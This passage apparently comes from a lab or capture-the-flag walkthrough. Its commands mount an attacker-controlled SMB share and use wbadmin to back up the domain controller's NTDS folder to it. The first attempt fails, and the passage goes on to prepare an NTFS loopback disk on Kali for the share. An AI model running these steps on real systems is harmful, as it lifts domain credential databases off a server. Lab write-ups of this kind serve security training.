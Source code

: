 We can mount the share.

`net use K: \\10.10.14.22\smbshare /user:smbuser smbpass`:
```
The command completed successfully.
```

`echo "Y" | wbadmin start backup -backuptarget:\\10.10.14.22\smbshare -include:C:\Windows\NTDS`:
```
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.


Note: The backed up data cannot be securely protected at this destination.
Backups stored on a remote shared folder might be accessible by other
people on the network. You should only save your backups to a location
where you trust the other users who have access to the location or on a
network that has additional security precautions in place.

Retrieving volume information...
This will back up (C:) (Selected Files) to \\10.10.14.22\smbshare.
Do you want to start the backup operation?
[Y] Yes [N] No Y

A backup cannot be done to a remote shared folder which is not hosted on a volume formatted with NTFS/ReFS. ←
```
❌

`net use K: /delete`:
```
K: was deleted successfully.
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`dd if=/dev/zero of=ntfs.disk bs=1024M count=2`:
```
2+0 records in
2+0 records out
2147483648 bytes (2.1 GB, 2.0 GiB) copied, 11.7201 s, 183 MB/s
```

`sudo losetup -fP ntfs.disk`

`losetup -a`:
```
/dev/loop0: []: (/home/kali/ntfs.disk) ←
```

`sudo mkfs.ntfs /dev/loop0`:
```
The partition start sector was not specified for /dev/loop0 and it could not be obtained automatically.  It has been set to 0.
The number of sectors per track was not specified for /dev/loop0 and it could not be obtained automatically.  It has been set to 0.
The number of heads was not specified for /dev/loop0 and it could not be obtained automatically.  It has been set to 0.
Cluster size has been automatically set to 4096 bytes.
To boot from a device, Windows needs the 'partition start sector', the 'sectors per track' and the 'number of heads' to be set.
Windows will not be able to boot from this device.
Initializing device with zeroes: 100% - Done.
Creating NTFS volume structures. ←
mkntfs completed successfully. Have a nice day.
```

